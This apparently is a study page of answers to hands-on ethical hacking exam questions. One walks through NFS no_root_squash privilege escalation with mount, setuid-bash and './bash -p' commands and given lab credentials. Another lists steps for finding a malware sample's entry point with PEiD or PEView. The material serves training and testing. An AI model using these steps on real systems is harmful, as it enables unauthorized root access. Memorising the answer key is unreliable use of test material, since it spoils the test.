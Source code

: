 9.You used shoulder surfing to identify the username and password of a user on the Ubuntu machine in the 192.168.0.0/24 network, that is, smith and L1nux123. Access the target machine, perform vertical privilege escalation to that of a root user, and enter the content of the imroot.txt file as the answer.

```bash
use misconfigured NFS (2049)
https://juggernaut-sec.com/nfs-no_root_squash/#Example_1_Crafting_an_Exploit_for_a_Root_Shell
or
### Perform vertical privilege escalation of a root user, and enter the flag
Exploiting misconfigured NFS (port 2049)

* `nmap -sV —p 2049 IP/Subnet`
* `sudo apt-get install nfs-common`
* `nmap -sV —script=nfs-showmount <Target_IP>`
* check available mounts: `showmount -e <Target_IP>` -> we will see /home directory
* `mkdir /tmp/nfs`
* `sudo mount -t nfs 10.10.1.9:/home /tmp/nfs`
* `cd /tmp/nfs`
* `sudo cp /bin/bash .`
* `sudo chmod +s bash` -> it will be highlighted in red
* `ls -la`
* `sudo df -h`
* `sudo chmod +s bash`

after that, In another terminal:

* Access to target using SSH
ssh smith@192.168.0.x
* `./bash -p` and we're root!
* `cd /home`
* `ls -la`
* Find the flag: `find / -name "*.txt" -ls 2> /dev/null`
#CS@@g5tj
---
1. nmap -sV -p 22 192.168.0.0/24 and now see open port ip address and note down
2. ssh smith@192.168.0.1 and for password given L1nux123
3. sudo -i
4. cd /
5. find . -name imroot.txt
6. cat givenpath/imroot.txt
```

10.During an assignment, an incident responder has retained a suspicious executable file "die-another-day". Your task as a malware analyst is to find the executable's Entry point (Address). The file is in the C:\Users\Admin\Documents directory in the "EH Workstation – 2" machines.

```bash
file info in Detect it easy
### Identify malware entry point address

#### [PEiD](https://softfamous.com/peid/) (suggested)

* If tool is not alreay on system, Download PEiF tool -> 
[https://softfamous.com/peid/](https://softfamous.com/peid/)
* Execute PEiD tool
* Upload malware executable
* See entry point address

#### **PEView**

* If tool is not alreay on system, Download PEView tool
* Execute tool
* Upload malware executable
* Look for the "Optional Header" section within the PEView interface. 
```